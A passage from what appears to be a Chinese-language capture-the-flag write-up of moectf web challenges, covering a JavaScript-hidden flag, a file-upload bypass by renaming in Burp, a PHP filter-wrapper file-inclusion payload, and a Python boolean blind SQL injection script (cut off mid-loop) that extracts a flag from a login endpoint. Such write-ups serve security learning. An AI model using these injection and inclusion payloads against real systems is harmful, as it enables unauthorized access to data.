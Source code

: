 
复制下来，控制台输出一下得到后半部分flag

```
and_H4ck_Javascript}
```

### What are you uploading

随便上传个png，发现

![image-20221015203535968](moectf.assets/image-20221015203535968.png)

bp抓包改下文件名再发送，就得到flag

![image-20221015203613420](moectf.assets/image-20221015203613420.png)

### inclusion

经典的php伪协议

```php
?file=php://filter/convert.base64-encode/resource=flag.php
```

### sqlmap_boy

环境没了，当时图方便直接盲注了

**exp**

```py
import requests

url='http://82.156.5.200:1045/login.php'
flag=''
for i in range(1,666):
    for j in range(32,128):
        data = {
            "username":f'1\'"||(ascii(substr((select(group_concat(flAg))from(flag)),{i},1))={j});#',
            'password':1
        }
        r=requests.post(url=url,data=data)
        #print(r.text)
        if '"code":"1"' in r.text:
            flag+=chr(j)
            print(flag)
            if j=='}':
```